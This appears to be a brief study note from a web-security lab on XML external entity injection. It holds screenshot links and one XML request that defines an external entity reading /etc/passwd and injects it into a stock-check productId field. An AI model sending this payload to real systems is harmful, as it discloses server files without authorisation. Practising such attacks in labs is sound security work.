 # XXE in compliant 
![[Pasted image 20230224014753.png]]
![[Pasted image 20230224014811.png]]
```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY xxeefowj SYSTEM "file:///etc/passwd">]><stockCheck><productId>1&xxeefowj;</productId><storeId>1</storeId></stockCheck> 
```
![[Pasted image 20230224014857.png]]
